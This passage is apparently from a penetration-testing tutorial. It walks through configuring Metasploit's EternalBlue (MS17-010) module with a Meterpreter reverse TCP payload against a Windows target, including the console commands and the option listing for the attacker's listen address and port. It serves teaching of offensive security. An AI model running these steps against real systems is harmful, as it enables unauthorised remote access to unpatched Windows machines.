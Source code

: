 ```shell-session


msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 15

payload => windows/x64/meterpreter/reverse_tcp
```

After selecting a payload, we will have more options available to us.

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

As we can see, by running the `show payloads` command within the Exploit module itself, msfconsole has detected that the target is a Windows machine, and such only displayed the payloads aimed at Windows operating systems.

We can also see that a new option field has appeared, directly related to what the payload parameters will contain. We will be focusing on `LHOST` and `LPORT` (our attacker IP and the desired port for reverse connection initialization). Of course, if the attack fails, we can always use a different port and relaunch the attack.

---

